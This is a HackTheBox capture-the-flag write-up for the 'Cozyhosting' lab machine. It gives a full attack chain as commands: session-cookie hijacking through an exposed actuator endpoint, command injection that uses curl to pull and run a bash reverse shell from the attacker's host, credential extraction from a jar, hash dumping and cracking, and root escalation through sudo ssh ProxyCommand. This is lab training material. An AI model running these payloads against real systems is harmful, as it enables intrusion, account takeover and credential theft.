 # Machine: Cozyhosting [Hacked]
This is the fifteenth machine I have completed on the hackthebox platform. 
### Scan
IP_MACHINE: ip of cozyhosting
```
  nmap -sC -sV -p- --min-rate 5000 IP_MACHINE
```
add the domain cozyhosting.htb to the /etc/hosts file and open [ Burpsuite > Proxy > Open Browser ] navigate to route http://cozyhosting.htb/login. And do a login test with the credentials test:test
## Cookie Hijacking
open the [ Developer Tools > Application > Cookies > http://cozyhosting.htb/ ]. Where we can see a cookie that has been generated when trying to log in
```
JSESSIONID:VALUE
```
Now we will use gobuster to discover hidden directories:
```
gobuster dir --url http://cozyhosting.htb/ --wordlist $HOME/SecLists/Discovery/Web-Content/spring-boot.txt
### this is the one we are interested in: /actuator/sessions
```
We open a new tab and go to http://cozyhosting.htb/actuator/sessions where we can see a cookie generated that does not have authorization and another that does belong to the user Khanderson. 
then we copy it and replace it in our cookie [ Developer Tools > Application > Cookies > http://cozyhosting.htb/ ] and refresh the page.
### Admin dashboard
Now that we have logged in to the administration panel of the web application, we activate burpsuite traffic interception (Intercept is on). and enter the following values in the connection fields at the end of the Dashboard. We capture the POST method in Burpsuite and send it to [Burpsuite > Repeater].
```
Hostname: IP_MACHINE
Username: test
```
## exploit and get a reverse shell
already in [Bursuite > Repeater] we have the following message body
```
 host=IP_MACHINE&username=test
```
On our machine, we create a *payload.txt* file with the following content ( MY_IP: the IP address of our machine )
```
bash -i >& /dev/tcp/MY_IP/1234 0>&1
```
we initialize an http server on port 80
```
sudo python3 -m http.server 80
```
in a new terminal we initialize netcat
```
nc -nlvp 1234
```
now we manipulate the message body that we send to [Burpsuite > Repeater]
```
# Burpsuite payload
host=IP_MACHINE&username=$(curl$IFS"MY_IP"/payload.txt|bash)
```
With that we have a reverse shell and when we execute "ls" we discover a file called cloudhosting-0.0.1.jar that we will download locally on our machine to reverse engineer it. then within the reverse shell that we did to cozyhosting we started an http server.
```
# cozyhosting reverse shell
python3 -m http.server
```
To download it to our local machine we use:
```
# local machine
wget IP_MACHINE:8000/cloudhosting-0.0.1.jar
```
## Reading the database
To reverse engineer the file we obtained, we opened [jd-gui > Openfile > cloudhosting-0.0.1.jar]. and we head to BOOT-INF/classes/application.properties where we will find the postgres database configuration:
```
# AN_PASSWORD: is the database password
spring.datasource.username=postgres
spring.datasource.password=AN_PASSWORD
```
now we go back to the reverse-shell in cozyhosting but we have to get a fully-tty. The procedure to obtain a fully-tty is as follows:
```
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
Now we enter the Postgres database of the remote system with the credentials that we obtained by reverse engineering the .jar file
```
psql -h <host> -U <username>
# It will ask us for a password, so we enter the AN_PASSWORD
```
Within the database we execute the following commands to obtain the authentication hashes of the system users
```
\c cozyhosting
\d
SELECT * FROM users;
```
### decrypt hash
which would look like this:
```
# HASHONE: is a hash of 61 characters
# HASHTWO: is another hash of 61 characters
kanderson | HASHONE | User
admin     | HASHTWO | Admin
```
We save the hashes in a *hash.txt* file separated by a line break, that is:
```
HASHONE
HASHTWO
```
and we proceed to decrypt the hashes with the John the Ripper tool (This process could take several minutes or even seconds depending on the GPU you have)
```
john --wordlist=$HOME/rockyou.txt hash.txt
```
Now to know who the admin is, just execute from the reverse shell:
```
cat /etc/passwd | grep bash
```
and we log in to the system
```
# USER_ADMIN: is the admin
ssh USER_ADMIN@cozyhosting.htb
# we access using the password of the decrypted hash
```
and we get the first flag *user.txt*
## privilege scale
To escalate privileges and obtain the last *root.txt* flag, simply execute the following commands
```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# get root flag
cat /root/root.txt
```
### end
